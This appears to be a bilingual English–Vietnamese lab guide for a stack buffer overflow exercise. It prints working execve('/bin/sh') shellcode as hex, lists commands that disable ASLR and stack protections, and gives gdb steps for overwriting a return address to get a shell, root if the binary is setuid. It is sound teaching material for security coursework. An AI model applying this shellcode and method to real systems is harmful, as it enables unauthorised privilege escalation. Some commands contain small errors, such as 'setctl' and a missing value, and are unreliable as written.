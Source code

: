 **Tips for code injection lab:**<br>
1. Write shellcode program in assembly language (sh.asm), compile with nasm (sh.o) then link with ld to generate executable file (sh)<br>
(Viết chương trình shellcode bằng hợp ngữ, biên dịch (nasm) và liên kết (ld) để tạo chương trình thực thi)
2. Run the folowing script to get the hex string of shellcode:<br>
(Chạy bash script dưới đây ở dòng lệnh để tạo chuỗi hex của shellcode:)<br>
`$> for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
<br>--> hex string generated: `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80`<br>
or run this script to generate shellcode binary file:<br>
(Hoặc chạy bash script dưới đây ở dòng lệnh để sinh binary file mã shellcode nếu inject bằng cách đọc file)<br>
`$> for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> sh.bin; done;` <br>
3. Estimate buffer size of vulnerable program with input strings of various length (eg. `./vuln.out $(python -c "print('a'*nnn)"`)<br>
(Ước lượng size từ đỉnh stack đến eip khi biên dịch chương trình với option -fno-stack-protector khi gcc)<br>
4. Compute the distance between buffer (esp) and return address to determine the padding bytes will be injected along with the sheelcode.<br>
(Tính toán khoảng cách từ buffer đến eip để xác định padding bytes chèn cùng với shellcode)<br>
**Prepare for the lab environment:**
5. Turn off OS's address space layout randomization (`sudo setctl -w kernel.randomization_va_space`)<br>
(Tắt chế độ tạo cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
6. Compile program with options to defeat stack protecting mechanism and code execution o stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack`<br>
7. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>
9. Load vuln.out in gdb <br>
(Nạp vuln.out trong gdb)<br>
`$> gdb vuln.out`<br>
8. Set break point after strcpy instruction <br>
(Đặt điểm dừng chương trình sau lệnh strcpy)<br>
Run program in gdb with injecting argument
(Khởi chạy chương trình trong gdb, chèn chuỗi hex của shellcode trên dòng lệnh)
(gdb-peda)r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")
Watch the stack memory from esp (stacktop):
(Quan sát bộ nhớ stack từ esp)
(gdb-peda) x/80xb $esp
Identify the return address while watching out the stack, then replace \xff\xff\xff\xff with value of esp
(Xác định vị trí của địa chỉ trả về trong stack, thay thế \xff\xff\xff\xff với địa chỉ của esp)
set *<address of return address> = <address of esp>
Continue execute program, you should now in the new bash shell:
(Thực thi tiếp chương trình, sẽ thấy xuất hiện dấu nhắc shell --> thực thi được shellcode)
(gdb-peda) continue
$_ <-- you are in the new bash. If vuln.out is set with root as the owner, you will be root in the new shell!  
Type exit to be back in gdb
$exit
(gdb-peda)




